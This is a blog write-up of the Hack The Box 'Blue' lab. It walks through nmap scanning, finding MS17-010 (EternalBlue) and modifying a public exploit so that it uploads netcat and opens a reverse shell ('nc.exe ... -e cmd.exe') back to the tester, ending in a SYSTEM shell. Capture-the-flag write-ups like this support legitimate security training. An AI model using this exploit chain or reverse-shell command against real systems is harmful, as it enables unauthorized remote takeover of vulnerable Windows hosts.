 ```yaml
---
layout: post
title: Hack the Box - Blue
date: 2020-03-13 16:04:22 +0100
description: Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
img: blue.png
fig-caption: Blue
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p- -T4 -sV 10.129.112.220
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 18:53 GMT
Nmap scan report for 10.129.112.220
Host is up (0.094s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```
From this we can see that the ports of most interest are 135,139,445. Before attempting to scan shares that might be accessible anonymously a quick vulnerability scan shows that the server is vulnerable to MS17-010, otherwise known as EternalBlue. With the box being named Blue it is safe to assume this is a sensible attack vector.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p139,445 --script vuln 10.129.112.225                                                                                                                                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 19:36 GMT
Nmap scan report for 10.129.112.225
Host is up (0.016s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```
Having identified a route forward lets move on to the exploitation phase.
## Foothold
Search on exploitdb for an exploit for this vulnerability we find three to choose from.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ searchsploit eternalblue
----------------------------------------------------------------- --------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- --------------------------------
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Ex   | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue'  | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote | windows_x86-64/remote/42030.py
----------------------------------------------------------------- --------------------------------
```
I chose to go with 42315, however it was written in Python 2.7 so to run this on my Kali instance with the least trouble I chose to use a docker container to run it inside.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo docker run -it -v "$(pwd)"/hackthebox/blue:/blue --entrypoint /bin/bash python:2.7.18-stretch
root@79a4e2b0be9a:/# pip install impacket
```
The exploit needs a couple of edits in order to produce a shell. First of all the username needs to be provided which in this case would be "anonymous". Secondly we need to edit the lines in the function "smb_pwn" to execute a reverse shell.
```python
#       print('creating file c:\\pwned.txt on the target')
#       tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
#       smbConn.closeFile(tid2, fid2)
#       smbConn.disconnectTree(tid2)

        smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
        service_exec(conn, r'cmd /c c:\nc.exe -nv 10.10.14.27 2121 -e cmd.exe')
```
After running this exploit using the following command our netcat listener should receive a shell if it is listening on the same port.
```
root@79a4e2b0be9a:/blue# python blue.py 10.129.112.225
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
...
Creating service ANJU.....
Starting service ANJU.....
```
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/blue]
└─$ nc -nlvp 2121
listening on [any] 2121 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.112.225] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
nt authority\system
```
## Privilege Escalation
As we attained root from this exploit and have access to the root flag, there is no need for privilege escalation.